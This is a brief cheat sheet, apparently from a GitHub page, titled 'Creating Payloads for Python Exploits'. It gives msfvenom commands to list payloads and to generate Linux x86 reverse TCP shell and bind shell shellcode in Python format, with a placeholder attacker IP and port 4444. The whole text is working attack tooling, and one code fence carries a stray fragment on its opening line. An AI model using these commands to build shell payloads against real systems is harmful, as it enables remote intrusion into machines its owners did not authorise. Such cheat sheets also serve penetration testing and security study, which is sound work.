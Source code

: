 # Creating Payloads for Python Exploits

**List all payloads**
```
msfvenom -l payloads
```
**Linux x86 Reverse TCP Shell**
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Linux x86 Bind Shell**
```-b "\x00" -f py
msfvenom -p generic/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```
